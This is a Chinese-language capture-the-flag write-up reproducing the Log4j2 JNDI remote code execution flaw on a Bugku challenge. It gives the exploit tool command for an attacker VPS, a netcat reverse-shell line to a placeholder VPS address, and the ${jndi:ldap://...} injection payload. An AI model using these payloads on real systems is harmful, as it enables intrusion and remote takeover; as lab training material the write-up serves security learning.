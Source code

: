 ```yaml
---
title: Log4j2_RCE
---
```


#  Log4j2_RCE

## 漏洞简介

Apache **Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为`2.0 <= Apache log4j2 <= 2.14.1`，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响。

## 复现过程

本文复现地址

[https://ctf.bugku.com/challenges/detail/id/340.html](https://ctf.bugku.com/challenges/detail/id/340.html)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-1.png)

使用工具

[https://gitee.com/bjmlw2021/JNDIExploit/tree/master](https://gitee.com/bjmlw2021/JNDIExploit/tree/master)

https://zhiji.lanzoul.com/iwGopxrn27c
密码:8r02

将利用工具上传至自己的公网vps

开启ldap和http服务监听

```
java -jar JNDIExploit-master.jar -i 自己公网vps的ip
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-2.png)

另开终端，nc开启监听

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-3.png)



base64加密反弹shell命令

```
nc 公网vps的ip 12345 -e /bin/sh
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-5.png)

进行jndi注入攻击

```java
${jndi:ldap://x.x.x.x:1389/Basic/Command/Base64/[base64加密后命令]}
```

在关卡页面，输入payload,密码随意。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-4.png)

成功反弹shell

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-6.png)
